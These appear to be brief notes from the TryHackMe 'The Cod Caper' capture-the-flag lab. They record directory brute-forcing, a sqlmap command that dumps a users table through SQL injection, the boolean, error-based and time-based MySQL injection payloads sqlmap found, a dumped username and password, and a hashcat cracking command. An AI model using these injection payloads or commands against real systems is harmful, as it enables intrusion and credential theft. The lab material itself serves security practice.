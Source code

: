 #THM - The Cod Caper

#IP 10.10.8.232

administrator.php > big.txt gobuster



sqlmap -u http://10.10.8.232/administrator.php --data 'username=&password=' -D users -T users --dump
sqlmap resumed the following injection point(s) from stored session:

Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=xMCI' RLIKE (SELECT (CASE WHEN (1655=1655) THEN 0x784d4349 ELSE 0x28 END))-- tLJa&password=

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=xMCI' AND GTID_SUBSET(CONCAT(0x7178716a71,(SELECT (ELT(2397=2397,1))),0x7171706b71),2397)-- wayk&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=xMCI' AND (SELECT 8238 FROM (SELECT(SLEEP(5)))ggKJ)-- FuCJ&password=


Database: users
Table: users
[1 entry]
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+

hashcat -m 1800 cat /opt/rockyou.txt --force 

love2fish

